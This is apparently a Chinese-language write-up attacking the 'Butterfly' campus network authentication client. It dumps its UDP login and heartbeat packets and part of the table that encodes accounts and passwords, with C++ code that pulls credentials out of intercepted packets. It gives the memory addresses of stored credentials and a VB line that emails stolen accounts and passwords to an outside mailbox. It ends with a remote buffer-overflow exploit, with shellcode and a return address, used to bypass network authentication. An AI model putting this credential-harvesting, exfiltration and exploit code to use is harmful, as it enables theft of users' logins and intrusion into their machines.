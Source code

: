 ##  蝴蝶数据包格式与拦截



1. 蝴蝶数据交互流程



  蝴蝶客户端与服务端通信采用UDP 通信,通信端口是3848 ,服务端IP 为172.16.1.180.交互流程(典型的C/S 模型):请求->应答

 

![图片](pic_temp1\psb1.png)



2. 登陆数据包



上线请求数据包:



```txt
80:c4:4b:44:a1:9d:89:53:24:41:aa:c7:7b:e7:23:6b:95:a3:91:20:56:f8:7d:7b:84:d2:80:30:c8:c9:58:48:49:49:58:c8:d8:58:01:20:48:49:48:d9:c8:58:a0:b1:c8:d9:49:39:c8:59:39:c8:c9:58:39:d8:59:21:21:ac:3d:5c:9c:4d:3d:9c:5c:31:81:80:f1:91:c9:39:d9:39:58

..KD...S$A..{.#k... V.}{...0..XHIIX..X. HIH..X....I9.Y9..X9.Y!!.=\.M=.\1.....9.9X
```



上线应答数据包:



```txt
01:2f:3f:b4:8c:47:c7:bc:5c:32:0b:a6:ac:00:0c:b4:36:73:81:81:80:20:40:c9:e8:49:c8:48:48:d9:d9:58:c8:d8:68:e8:48:68:c8:90:81:78:11:81:10:a1:ac:37:16:87:df:a6:b7:b6:6e:8b:3a:5b:96:7b:6e:1e:bb:06:06:4b:eb:86:7a:46:96:b7:0b:8b:3a:fa:ef:57:ea:db:0b:4b:7a:4b:eb:27:da:c6:56:07:e7:8b:3a:6b:b7:06:be:06:ef:c7:87:b6:6e:07:9f:d7:27:56:5a:28:16:6f:fb:a6:c7:87:86:df:86:fb:37:2b:c9:48:58:48:39:59:59:49:08:b4:a8:28:16:6f:da:16:c7:0e:5b:3f:37:2b:48:39:48:48:08:56:2b:a8:98:61:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:58:11:00:00:00:00:d8:11:00:00:00:00:59:11:1b:03:b9:00:d9:11:00:00:00:00:68:11:76:b5:81:00:c1:50:2c:5c:5c:4c:69:b9:b9:c8:d9:49:39:c8:59:39:c9:39:49:d9:89:81:80:08:81:00

./?..G..\2......6s... @..I.HH..X..h.Hh...x.....7......n.:[.{n....K..zF....:..W...KzK.'..V...:k........n...'VZ(.o........7+.HXH9YYI...(.o....[?7+H9HH.V+..a........................X...........Y..........h.v....P,\\Li....I9.Y9.9I.......
```



细看也许没有什么有用的发现,但是多次测试发现大致格式如下:



```txt
起始标志:0x80 | 25 位数据填充标志 | 帐号起始标志:0x80 | 1 位随机填充标志 | 帐号:_____ | 密码起始标志:0x01 | 1 位随机填充标志 | 密码:_____ | 密码结束标志:0xA0 | 8 位数据填充标志 | 11 位未知数据 | 16 位数据填充标志
```



  而且还有一个最关键的地方,帐号和密码都被稍微"加密"了一下,由于蝴蝶登陆数据包有两套密码对应方案[这是根据数据包起始标志确定的,有0x80,0x81 ],在此只公开一套[0x80 ]:



```c
static const number_table[10]={0x48,0xC8,0x49,0xC9,0x58,0xD8,0x59,0xD9,0x68,0xE8};
```



3. 定时认证数据包



定时认证请求数据包:



```txt
10:48:92:71:ed:bd:9e:95:62:e9:ec:a9:aa:55:f3:e2:7b:6f:81:81:80:20:c1:e8:c8:68:68:48:d8:59:58:48:c8:48:58:c9:c9:d9:48:d9:d9:68:50:11:80:00:80:f0

..X`o,..z.Z....... ...hhH.YXH.HX...H..h.A..I9.Y9..X9Y.... V.}{..P.....)...........8...........9...........
```



定时认证应答数据包:[最大长度是--1500]



```txt
10:48:92:71:ed:bd:9e:95:62:e9:ec:a9:aa:55:f3:e2:7b:6f:81:81:80:20:c1:e8:c8:68:68:48:d8:59:58:48:c8:48:58:c9:c9:d9:48:d9:d9:68:50:11:80:00:80:f0

.H.q....b....U..{o... ...hhH.YXH.HX...H..hP.....
```



大致格式如下:



```txt
起始标志:0x81 | 1 位随登陆认证改变的数据位 | 16 位随机数据 | 0x20 0x41 | 16 认证KEY | 31 位固定数据 | 1 位随机数据 | 36 位固定数据 (不固定104-108 位长度[其实是根据认证改变的])
```



如果蝴蝶没有及时发送认证数据包,将会发生IDLE 认证超时

 

![图片](pic_temp2\psb2.jpg)



4. 下线数据包



下线请求数据包:



```txt
90:ad:8b:de:c4:53:49:ca:d2:4c:06:69:f0:81:32:cd:27:be:20:d0:e8:c8:68:68:48:d8:59:58:48:c8:48:58:c9:c9:d9:48:d9:d9:68:a0:41:c8:d9:49:39:c8:59:39:c8:c9:58:39:d8:59:00:00:00:91:20:56:f8:7d:7b:84:d2:50:11:80:00:80:08:29:11:00:00:00:00:a9:11:00:00:00:00:38:11:00:00:00:00:b8:11:00:00:00:00:39:11:00:00:00:00:b9:11:00:00:00:00

.....SI..L.i..2'. ...hhH.YXH.HX...H..h.A..I9.Y9..X9.Y.... V.}{..P.....)...........8.........9...........
```



下线应答数据包:



```txt
11:29:71:be:77:95:d2:c7:7d:a2:13:ca:4c:cf:b6:13:dc:3b:81:81:80:20:c1:e8:c8:68:68:48:d8:59:58:48:c8:48:58:c9:c9:d9:48:d9:d9:68

.)q.w...}...L....;... ...hhH.YXH.HX...H..h
```





  这个没有用到,所以只能告诉你起始标志为0x11



5. 拦截



Packet Resolve Code for C++ :



```c++
class login_packet {
 public:
  explicit login_packet(const string& resolve_packet) {
    string resolve_string(resolve_packet);

    if (!resolve_string.empty()) {
        if (!resolve_string.find(FLAG_START) || !resolve_string.find(FLAG_ACCOUNT_START) ||
            !resolve_string.find(FLAG_PASSWORD_START) || !resolve_string.find(FLAG_PASSWORD_END)) {

           resolve_string=resolve_string.substr(DATA_OFFSET_FLAG_ACCOUNT_START+DATA_OFFSET_ACCOUNT_START,resolve_string.size());
           string resolve_account (resolve_string.substr(0,resolve_string.find_first_of(FLAG_PASSWORD_START)));
           resolve_string=resolve_string.substr(resolve_string.find_first_of(FLAG_PASSWORD_START)+DATA_OFFSET_PASSWORD_START,resolve_string.size());
           string resolve_password(resolve_string.substr(0,resolve_string.find_first_of(FLAG_PASSWORD_END)));

           if (!resolve_account.empty() && !resolve_password.empty()) {
               decode_number(resolve_account,username);
               decode_number(resolve_password,password);
           }
        }
    }
  };
  ~login_packet() {
  };

  string get_username(void) const {
    return username;
  };
  string get_password(void) const {
    return password;
  };

 private:
  static void number_to_string(long in_number,char* output_string)  //  省略部分代码
  static long string_to_number(const char* input_string)  //  省略部分代码

  static int resolve_number(unsigned char in_number)  //  省略部分代码
  static bool decode_number (const string& in_number,string& out_string)  // 省略部分代码 

  string username;
  string password;
};
```



效果如下:
 

![图片](pic_temp2\psb3.jpg)



##  帐号与密码的获取与发送



1. 帐号与密码



  内存地址.帐号地址:0x0045B7E8  ,密码地址:0x0045B808



2. EMail 发送



Send EMali Code for VB:



```visual basic
SendEmail("smtp.sina.cn", "supplicant_monitor", "supplicant_monitor_login", "lcatro@sina.cn","Account:" & login_packet_get.get_username() & vbcrlf & "Password:" & login_packet_get.get_password())
```



##  蝴蝶客户端远程缓冲区溢出攻击原理



1. 攻击原理



  主要思路是利用定时认证来突破.由于蝴蝶经常会向服务端发送定时认证数据包,所以在recvfrom 的时候可以利用超长数据包溢出栈来运行ShellCode.



2. 实现



  The Main Code for C:



```c++
char ret_address[4]={0xBC,0x91,0x41,0x00};
char shellcode[]={0xB8,0xE8,0xB7,0x45,0x00,0xBB,0x08,0xB8,0x45,0x00,0x6A,0x00,0x50,0x53,0x6A,0x00,0xB8,0x1E,0xFD,0x1B,0x77,0xFF,0xD0};
char buffer[ALLOC_BUFFER_LENGTH]={0};

memset(buffer,' ',TARGE_BUFFER_LENGTH);
memcpy(buffer+TARGE_BUFFER_LENGTH,ret_address,sizeof(ret_address));

memcpy(buffer+TARGE_BUFFER_LENGTH+sizeof(long),shellcode,sizeof(shellcode));

sendto(sock,buffer,sizeof(buffer),0,(const sockaddr*)&targe,sizeof(targe));
Sleep(1);
```


  效果:

![img](pic_temp2\psb4.jpg) 



未认证上网时浏览网页



图解:



![图片](pic_temp2\psb5.jpg)



![图片](pic_temp2\psb6.webp.jpg)

